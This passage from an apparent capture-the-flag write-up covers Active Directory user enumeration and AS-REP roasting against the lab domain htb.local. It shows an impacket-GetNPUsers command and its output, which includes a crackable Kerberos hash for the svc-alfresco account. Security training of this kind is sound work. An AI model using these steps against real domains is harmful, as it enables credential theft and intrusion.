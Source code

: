 ```text
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

I trim this list down to the following and use it as the GetNPUsers list:

```text
Administrator
Guest
krbtgt
sebastien
lucinda
svc-alfresco
andy
mark
```

The nmap scan let me know that the domain is named `htb.local`. I make that address resolve to the box IP in my `/etc/hosts` file. Then, I use the following command `impacket-GetNPUsers htb.local/ -userfiles loot/users.txt -no-pass` and get the following output:

```text
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:0a1b8356909364ceb01272b62793c225$12e43501b0a048860e667d552096c4c1cd95901a522b6888a4200bfe2a0862c4b33d76682a4000b9e2cbbb27035de41c776513a12418c8cb8c5681bd6c862abaa16f5068f094376e9a07e47596d38b4cb0b73ceac8033fcf781daa17a5ac25509081780efeb9f37f152a8f438b1895226a5f516662ddfa0d27da39a3be70d2bfa433b506b5fe66fce8db973e5b51b87777c9462739b56d36273f45457c6ba985eb6378fa7572b46e92203b00fe14acafe3af127d1a150107117122251edec0363ad2fe4b9a294033db0874cd11b69e24033a68d909e5873bb524eaaefe5ed20e6ce294b4d9f7
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
```

So the user `svc-alfresco` allows pre-authorization, which let me get a TGT for that user. Lets dive into what that means.
